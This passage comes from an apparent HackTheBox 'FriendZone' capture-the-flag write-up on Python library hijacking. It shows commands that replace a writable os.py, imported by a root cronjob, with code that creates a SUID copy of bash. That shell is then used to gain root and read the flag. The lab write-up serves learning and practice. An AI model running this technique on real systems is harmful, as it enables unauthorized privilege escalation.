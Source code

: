		- If we have write access to the library (`os.py`) that `reporter.py` is importing, we are able to replace it w/ a python script to create `rootbash`
		- `rootbash` - `/bin/bash` w/ SUID bit set.

	1. Check if library `os` writable
		```
		friend@FriendZone:/usr/lib/python2.7$ ls -la | grep os                                                                                                                      
		```
		![](Pasted%20image%2020220911230640.png)
		- `os.py` - `RWX`
	2. Make a copy of `os.py` called `os_bak.py`
		```
		friend@FriendZone:/usr/lib/python2.7$ cp /usr/lib/python2.7/os.py /usr/lib/python2.7/os_bak.py                                                                                            
		```
		- We'll need this for writing our python script to create `rootbash`
	3. Create our python script called `os.py` 
		```
		friend@FriendZone:/tmp$ cat os.py
		import os_bak
		os_bak.system("cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash")
		```
	4. Replace `/usr/lib/python2.7/os.py` w/ `/tmp/os.py`
		```
		friend@FriendZone:/tmp$ cp /tmp/os.py /usr/lib/python2.7/os.py 
		```
	5. Wait for cronjob to execute, `rootbash` will be created
	6. Obtain `root`
		```
		friend@FriendZone:/tmp$ /tmp/rootbash -p
		```
		![](Pasted%20image%2020220911231617.png)
6. Root Flag
	```
	rootbash-4.4# cat root.txt 
	b0e6c60b82cf96e9855ac1656a9e90c7
	```
7. Demo - Python Library Hijacking Privilege Escalation
	<html>
	<head>
	<link rel="stylesheet" type="text/css" href="/asciinema-player.css" />
	</head>
	<body>
	<div id="python_hijacking"></div>
	<script src="/asciinema-player.min.js"></script>
	<script>
		AsciinemaPlayer.create('https://raw.githubusercontent.com/yufongg/yufongg.github.io/main/_posts/Writeups/HackTheBox/Linux/FriendZone/images/python_hijacking.cast', document.getElementById('python_hijacking'), { 
		loop: true,
		autoPlay: true
			});
	</script>
	</body>
	</html>
	


